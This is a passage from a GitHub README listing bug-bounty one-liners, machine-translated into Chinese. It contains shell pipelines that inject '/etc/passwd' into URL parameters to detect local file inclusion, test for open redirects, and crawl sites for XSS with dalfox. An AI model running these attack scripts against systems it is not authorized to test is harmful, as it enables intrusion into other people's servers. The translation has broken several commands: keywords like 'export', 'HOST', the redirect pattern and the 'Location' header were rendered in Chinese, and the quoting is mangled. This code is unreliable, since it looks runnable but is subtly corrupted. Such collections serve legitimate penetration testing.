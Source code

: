 dwisiswant0/awesome-oneliner-bugbounty: A collection of awesome one-liner scripts especially for bug bounty tips.    https://github.com/dwisiswant0/awesome-oneliner-bugbounty

# 超棒的一行代码 Bug Bounty [![超棒](https://awesome.re/badge-flat2.svg)](https://awesome.re)
> 一组特别用于漏洞赏金的精彩单行脚本。

此存储库存储并保存了我提供的以及社区贡献的各种漏洞赏金提示。热忱欢迎您的贡献和建议。

## 定义

本节定义了单行命令/脚本中使用的特定术语或占位符。

- 1.1. “**HOST**” 定义一个主机名、（子）域或 IP 地址，例如，替换为“internal.host”、“domain.tld”、“sub.domain.tld”或“127.0.0.1”。
- 1.2. “**HOSTS.txt**”文件中包含多个条件 1.1。
- 2.1.“**URL**”明确定义 URL，例如替换为“http://domain.tld/path/page.html”或以 HTTP/HTTPS 协议开头。
- 2.2. “**URLS.txt**” 文件中含有多个标准 2.1。
- 3.1. “**FILE.txt**”或“**FILE**`{N}`**.txt**”表示根据上下文和需要运行命令/脚本所需的文件。
- 4.1. "**OUT.txt**" 或 "**OUT**`{N}`**.txt**" 表示作为目标存储结果的文件将成为执行的命令。

---

### 本地文件包含
>@dwisiswant0

```bash
gau 主机 | gf lfi | qsreplace“/etc/passwd”| xargs -I% -P 25 sh -c'curl -s“%”2>&1 | grep -q“root:x”&& echo“VULN！%”'
```

### 开放重定向
>@dwisiswant0

```bash
导出 LHOST="URL"; gau $1 | gf 重定向 | qsreplace"$LHOST" | xargs -I % -P 25 sh -c'curl -Is"%" 2>&1 | grep -q"位置：$LHOST" && echo"VULN！%"'
```

>@N3T_hunt3r
```bash
cat URLS.txt | gf url | tee url-redirect.txt && cat url-redirect.txt | parallel -j 10 curl --proxy http://127.0.0.1:8080 -sk > /dev/null
```

### XSS
> @cihanmehmet

```bash
gospider -S URLS.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee OUT.txt
```
